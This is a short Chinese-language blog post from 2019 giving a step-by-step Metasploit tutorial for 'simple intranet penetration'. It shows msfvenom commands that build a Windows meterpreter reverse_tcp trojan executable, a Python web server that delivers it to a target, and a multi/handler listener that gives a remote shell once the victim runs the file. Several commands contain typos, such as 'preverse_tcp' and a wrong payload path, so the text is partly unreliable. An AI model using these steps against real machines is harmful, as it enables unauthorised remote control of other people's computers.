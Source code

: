 ```yaml
---
layout:     post
title:      MSF 简单内网渗透
subtitle:   linux下利用Metasploit做一个简单的内网渗透
date:       2019-3-18
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 正所谓前人栽树，后人乘凉。

# 前言
1.kali 终端运行 msfconsole

命令：msfconsole

![](https://s2.ax1x.com/2019/03/18/AniMtg.png)

出现如上界面说明启动成功。

2.用MSF下的msfvenom来生成木马程序到根目录。

命令：msfvenom -p /windows/meterpreter/reverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe

![](https://s2.ax1x.com/2019/03/18/AnknJg.png)

3.再打开一个终端窗口开启一个简易web服务器。

命令：python SimpleHTTPServer 8080

![](https://s2.ax1x.com/2019/03/18/AnkGwV.png)

4.用目标机的浏览器访问下载木马程序。点击木马文件下载。

![](https://s2.ax1x.com/2019/03/18/AnkWSH.png)

5.加载 exp。

命令：use  exploit/multi/handler

![](https://s2.ax1x.com/2019/03/18/AnA534.png)

6.设置我们的payload。

命令：set /windows/meterpreter/preverse_tcp

set lhost “本机ip”

set lport “你刚才的端口”。

7.查看我们的设置。

命令：show options

![](https://s2.ax1x.com/2019/03/18/AnE35T.png)

8.开启监听。

命令：run

![](https://s2.ax1x.com/2019/03/18/AnEarR.png)

9.目标机器下载并点击我们的木马文件。

![](https://s2.ax1x.com/2019/03/18/AnZmBn.png)

10.得到meterpreter，shell到目标的终端。

命令：shell

![](https://s2.ax1x.com/2019/03/18/AnZB9O.png)

11.完成。
